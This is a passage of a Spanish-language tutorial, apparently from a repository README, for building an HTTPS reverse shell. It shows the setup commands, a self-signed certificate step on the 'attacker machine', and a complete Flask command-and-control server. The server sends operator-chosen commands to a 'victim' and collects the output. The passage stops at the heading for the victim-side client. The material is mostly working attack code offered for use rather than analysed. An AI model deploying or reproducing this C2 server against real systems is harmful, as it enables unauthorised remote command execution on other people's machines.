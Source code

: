 ```bash
pip install requests flask
```

#### 🔐 Crear un certificado SSL autofirmado (para HTTPS)

En la **máquina atacante**, ejecuta:

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

Esto genera dos archivos:

- `key.pem`: clave privada
- `cert.pem`: certificado autofirmado

---

### 🖥️ Parte 1: Servidor Flask con HTTPS (atacante)

Guarda este archivo como `https_server.py`:

```python
# https_server.py
from flask import Flask, request
import ssl

app = Flask(__name__)

# Comando que se enviará a la víctima
comando_actual = "whoami"

@app.route('/', methods=['GET', 'POST'])
def controlar_shell():
    global comando_actual
    if request.method == 'GET':
        return comando_actual
    elif request.method == 'POST':
        salida = request.data.decode()
        print("[+] Resultado recibido de la víctima:\n", salida)
        return "OK"

@app.route('/set/<cmd>')
def cambiar_comando(cmd):
    global comando_actual
    comando_actual = cmd
    return f"Comando actualizado a: {cmd}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8443, ssl_context=('cert.pem', 'key.pem'))
```

---

### 🖥️ Parte 2: Cliente Reverse Shell (víctima)
